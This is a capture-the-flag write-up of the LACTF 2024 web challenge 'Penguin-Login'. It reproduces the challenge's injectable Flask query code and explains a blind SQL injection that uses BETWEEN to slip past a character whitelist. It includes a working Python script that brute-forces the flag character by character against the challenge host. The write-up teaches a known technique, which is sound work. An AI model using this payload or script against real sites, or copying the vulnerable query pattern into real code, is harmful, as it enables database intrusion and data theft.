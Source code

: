 ```yaml
---
title: Penguin-Login
date: 2024-02-18T20:05:34+02:00
description: Writeup for Penguin-Login [Lactf 2024]
author: H0N3YP0T
tags:
- web
draft: false
---
```

___

## Challenge Description

I got tired of people leaking my password from the db so I moved it out of the db. penguin.chall.lac.tf

## Intuition

The website is really basic, it only does one request which is vulnerable to SQL injections.

![login](/images/lactf_2024/penguin.png)

![test_sqli](/images/lactf_2024/penguin_test.png)

## Solution

By looking in the source code, I notice that the original query is `"SELECT * FROM penguins WHERE name = '%s'"` but the
tricky part is that a whitelist of characters is used to filter the input. I can not use the word `LIKE` and I can use only
`a-zA-Z0-9` and `{_}` characters.

```python
with app.app_context():
    conn = get_database_connection()
    create_sql = """
        DROP TABLE IF EXISTS penguins;
        CREATE TABLE IF NOT EXISTS penguins (
            name TEXT
        )
    """
    with conn.cursor() as curr:
        curr.execute(create_sql)
        curr.execute("SELECT COUNT(*) FROM penguins")
        if curr.fetchall()[0][0] == 0:
            curr.execute("INSERT INTO penguins (name) VALUES ('peng')")
            curr.execute("INSERT INTO penguins (name) VALUES ('emperor')")
            curr.execute("INSERT INTO penguins (name) VALUES ('%s')" % (flag))
        conn.commit()


@app.post("/submit")
def submit_form():
    conn = None
    try:
        username = request.form["username"]
        conn = get_database_connection()

        assert all(c in allowed_chars for c in username), "no character for u uwu"
        assert all(
            forbidden not in username.lower() for forbidden in forbidden_strs
        ), "no word for u uwu"

        with conn.cursor() as curr:
            curr.execute("SELECT * FROM penguins WHERE name = '%s'" % username)
            result = curr.fetchall()

        if len(result):
            return "We found a penguin!!!!!", 200
        return "No penguins sadg", 201

    except Exception as e:
        return f"Error: {str(e)}", 400
```

The server does not send the query back, it only sends a message if the query was successful or not. Therefore I need to build an 
error based SQLi. I can use the `BETWEEN` query in order to simulate the `LIKE` query. The following payload is used to guess one by one character of the flag.

![payload](/images/lactf_2024/payload_penguins.png)

This payload is an example where I already know the beginning of the flag (flag{tes) and I want to find out the next character. I use the `BETWEEN` query to check if the character I will inject in the first position of the flag is correct or not. If the server returns `We found a penguin!!!!!` then the character is good otherwise it is not. 
Note that I had `z` at the end of the second part of the `BETWEEN` to check from `a` to `z` and if it is a number then I will add `9` to check from `0` to `9`.
In order to be faster I can use `fuff` to fuzz every character by using a wordlist.

![payload](/images/lactf_2024/fuff_penguins.png)

or even do it by using a script (thanks to [MettleSphee](https://github.com/MettleSphee))

```python
import requests
url = "https://penguin.chall.lac.tf/submit"

headers = {
  'Content-Type': 'application/x-www-form-urlencoded'
}
found=0
alphabet = '0123456789qwertyuiopasdfghjklzxcvbnm}'
found_string="lactf{90stgr353sn0tl7k3th30th3rdbs0w"
#print(brute[len(brute)-1])
while found_string[len(found_string)-1] != "}":
	if (found == 1):
		break
	for brute in alphabet:
		payload = 'username=\'%20UNION%20SELECT%20name%20from%20penguins%20WHERE%20NAME%20BETWEEN%20\''+found_string+brute+'\'%20AND%20\''+found_string+brute+'z'
		response = requests.request("POST", url, headers=headers, data=payload)
		match response.status_code:
			case 201:
				#print("not found yet")
				if (brute=="}"):
					found = 1
					break
			case 200:
				found_string = found_string + brute
				print(found_string)
				if (brute=="}"):
					found = 1
					break
print("Found! "+found_string)
```

![script](/images/lactf_2024/script_penguins.png)


### Flag

`lactf{90stgr35_3s_n0t_l7k3_th3_0th3r_dbs_0w0}`

## References (in case you used [^footnotes] thingies)
